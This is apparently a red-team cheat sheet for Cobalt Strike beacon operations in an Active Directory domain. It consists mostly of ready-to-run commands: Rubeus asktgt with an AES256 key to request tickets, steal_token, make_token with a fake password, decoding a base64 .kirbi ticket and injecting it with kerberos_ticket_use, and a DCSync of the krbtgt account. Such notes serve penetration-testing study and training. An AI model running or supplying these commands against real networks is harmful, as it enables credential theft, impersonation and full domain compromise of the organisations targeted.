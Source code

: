 If is on an elevated context, we can do it with Rubeus.

```
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:user /domain:corp.local /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec10 /nowrap /opsec  /createnetonly:C:\Windows\System32\cmd.exe
```
```
beacon> steal_token 3453
```
# Pass The Ticket

We can use the `make_token` module with a fake password if we inject kerberos tickets on memory.

```
beacon> make_token CORP\user FakePass
```
We can use `kerberos_ticket_use` to select a TGT of the user to impersonate.

If we obtain a ticket from Rubeus and we have it in Base64 we will need to decode it and store on a file

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Tickets\user.kirbi", [System.Convert]::FromBase64String("doIGWD[...snip...]MuaW8="))
```

After that we can use the ticket.

```
beacon> kerberos_ticket_use C:\Tickets\user.kirbi
```

> **Note**: `kerberos_ticket_use` allows us to inject on memory `TGT` and `TGS`.

> **Note**: After importing the ticket make sure to always use the FQDN. If not some `1326 errors` will appear.



# DCSync

The Directory Replication Service (MS-DRSR) protocol is used to synchronise and replicate Active Directory data between domain controllers.  DCSync is a technique which leverages this protocol to extract username and credential data from a DC.

This tecnhique requires `GetNCChanges` which is usually only available for Domain Admins.

```
beacon> dcsync corp.local CORP\krbtgt
```